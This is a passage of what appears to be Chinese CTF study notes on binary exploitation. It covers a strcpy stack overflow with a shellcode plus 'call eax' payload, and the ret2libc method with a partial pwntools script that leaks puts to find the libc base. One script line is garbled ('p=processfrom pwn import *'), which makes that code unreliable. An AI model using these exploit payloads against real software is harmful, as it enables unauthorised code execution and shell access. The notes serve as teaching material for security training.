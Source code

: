 利用strcpy 函数不会检查目标缓冲区的大小。如果 input 字符串的
长度超过了 buf 数组的大小，就可能导致数据溢出到栈上其他部分。

```python
shellcode = asm(shellcraft.sh())
call_eax = p32(0x80484A0) #0x080484A0 : call eax
#0x20c=0x208+4;这个是溢出数值
payload = flat([shellcode,'a'*(0x20c-len(shellcode)),call_eax])
#call_eax是因为，要跳转回执行区域，在gdb中ctfshow函数的leave处下个断点，看程序返回时，缓冲区指向哪个寄存器。打好断点后运行程序，输入“show” 可以看到 EAX ,ECX ,EDX 寄存器是指向缓冲区的，然后我们去寻找call / jmp 指令：按照之前教大家的应该是用ROPgadget去寻找



```



##### ret2libc:

在很多时候，我们程序中肯定不会留出后门函数的，这时候，我们即没有system函数，也没有"\bin\sh"的字符串，这时候我们该如何利用漏洞呢？
比如说，我们在一个C语言程序中调用了printf函数，这个函数不是我们自己实现的，而是使用了链接库，但是这里有一个问题，使用链接库的时候，链接库所有的函数都被加载进来了，也就是说，system函数也被加载进来了，这时候我们就就可以使用system函数了。

**ps：** 1.要用它给的libc版本。例如：libc = LibcSearcher('write',write) 这个后面的write是接收的got的偏移量。

got表：globle offset table 全局偏移量表 

plt表：procedure link table 程序链接表 

根据：基地址 = 真实地址 - 偏移地址 ：获得基地址

有了基地址libc_addr，我们就可以寻找system函数和"/bin/sh"字符串的真实地址了： 

解题shil

1.首先寻找一个函数的真实地址，以puts为例。构造合理的payload1，劫持程序的执行流程，使得程序执行puts(puts@got)打印得到puts函数的真实地址，并重新回到main函数开始的位置。

2.找到puts函数的真实地址后，根据其最后三位，可以判断出libc库的版本（本文忽略，实际题目要用到LibcSearch库）。

3.根据libc库的版本可以很容易的确定puts函数的偏移地址。

4.计算基地址。基地址 = puts函数的真实地址 - puts函数的偏移地址。

5.根据libc函数的版本，确定system函数和"/bin/sh"字符串在libc库中的偏移地址。 

6.根据 真实地址 = 基地址 + 偏移地址 计算出system函数和"/bin/sh"字符串的真实地址。

7.再次构造合理的payload2，劫持程序的执行流程，劫持到system("/bin/sh")的真实地址，从而拿到shell。

32位：

```python
from pwn import *

p=processfrom pwn import *
e = ELF("./ret2libc3_32")
libc = ELF("/lib/i386-linux-gnu/libc.so.6") #确定libc库并解析
#libc = ELF("/path/to/libc.so.6")
p = process("./ret2libc3_32")
puts_plt = e.plt['puts'] #puts函数的入口地址
puts_got = e.got['puts']  #puts函数的got表地址
start_addr = e.symbols['_start'] #程序的起始地址
payload1 = b'a' * 112 + p32(puts_plt) + p32(start_addr) + p32(puts_got)
#attach(p, "b *0x0804868F")
#pause()
p.sendlineafter("Can you find it !?", payload1)
puts_real_addr = u32(p.recv()[0:4])  #接收puts的真实地址，占4个字节
print("puts_plt:{}, puts_got: {}, start_addr: {}".format(hex(puts_plt),hex(puts_got), hex(start_addr)))
print("puts_real_addr: ", hex(puts_real_addr)) 
libc_addr = puts_real_addr - libc.sym['puts'] #计算libc库的基地址
print(hex(libc_addr))
```
